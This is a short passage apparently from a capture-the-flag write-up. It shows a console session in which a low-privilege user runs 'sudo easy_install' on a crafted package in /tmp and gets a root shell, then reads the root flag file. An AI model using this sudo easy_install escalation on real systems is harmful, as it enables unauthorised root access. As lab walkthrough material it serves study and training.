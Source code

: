 And that gives me `root`:

```console
developer@updown:~$ sudo /usr/local/bin/easy_install /tmp/x
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing x
Writing /tmp/x/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/x/egg-dist-tmp-Gt7PhG
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
bb9ba2...
```
